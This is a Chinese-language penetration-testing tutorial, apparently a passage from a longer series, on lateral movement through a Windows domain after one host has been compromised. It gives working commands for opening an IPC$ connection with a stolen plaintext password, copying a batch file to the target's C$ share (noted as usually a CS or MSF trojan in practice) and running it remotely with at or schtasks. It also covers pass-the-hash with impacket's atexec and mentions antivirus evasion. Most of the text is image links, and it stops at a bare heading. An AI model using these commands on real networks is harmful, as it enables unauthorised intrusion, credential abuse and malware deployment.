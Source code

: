 在拿下一台内网主机后,通过本地信息搜集收集用户凭证等信息后,如何横向渗透拿下更多的主机?

这里仅介绍at&schtasks命令的使用,在已知目标系统的用户明文密码的基础上,直接可以在远程主机上执行命令。获取到某域主机权限->minikatz得到密码(明文,hash)->用到信息收集里面域用户的列表当作用户字典->用到密码明文当作密码字典->尝试连接->创建计划任务(at|schtasks)->执行文件为后⻔或相关命令

利用流程:

*   1.建立IPC链接到目标主机
    
*   2.拷⻉要执行的命令脚本到目标主机
    
*   3.查看目标时间,创建计划任务(at,schtasks)
    
*   4.删除IPC链接
    

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2vUukZqUgd1CYjour9NkCic7IVxBtic38sM8Irth2VZdwlbQr4LQxTtEg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2xaia8E2blUcQmMuM7vQMtSotSkN5WdsKgzxBrG8PMDYlicJIgUNUq5MQ%2F640%3Fwx_fmt%3Dpng)

\[at\] & \[schtasks\] 都是基于定时任务的攻击

#at < Windows2012

net use \\\\192.168.3.21\\ipc$ "Admin12345" /user:god.org\\administrator #建立IPC连接:

copy add.bat \\\\192.168.3.21\\c$ #拷⻉执行文件到目标机器(实战中大多是CS或者MSF木⻢)

at \\\\192.168.3.21 15:47 c:\\add.bat #添加计划任务

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2MIR8cfMoLgyFMIOU0Ky79Pc3QNia94PrHgHHkTduBPnDvGz2KbU7JWw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2T5kuaj4fibWNbMs98UlQiaiatHWhW9uT6Kl1Fz9cD3PCtXtoFUowBJoFQ%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm23NoeS3Z6iau9CAtdFz3VT1jjIE6YGbEL7EswfrOt60OuVXrEA8xGRdg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2jclYCpe8lxAwVswj28pWFKicsQX312InupA1jUoKpjicawTiay9hYbvHQ%2F640%3Fwx_fmt%3Dpng)

    #schtask >=Windows2012

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2JlgCDkVM9MEBTztyfLzpxEGXI6z2t7ucleAHic6Rc77SmMtq8iaricw9A%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2vXekqRCOH4g3nZniazPV0lPgDPbxpBo04mz8JzEu7CpaFCqyyhG04PQ%2F640%3Fwx_fmt%3Dpng)

### 案例2-横向渗透明文HASH传递atexec-impacket

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2F0tn35hbPVIEp5iauzNY343ElAkG9xwNLwKl9icEe7kquZSXibicdQ29Zw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2eKibBwddiciabxlcIBW1jWZPSOq0iceMpIicYTg0f5YsZxMAfYBHiaadzQxg%2F640%3Fwx_fmt%3Dpng)

还自带提权。优点:方便快捷,可以支持hash。缺点:第三方工具,会受到杀毒软件或防护的影响。如果目标主机有杀软或防护的话,要对该软件进行免杀

### 案例3-横向渗透明文HASH传递批量利用-综合

webServer已经拿到权限
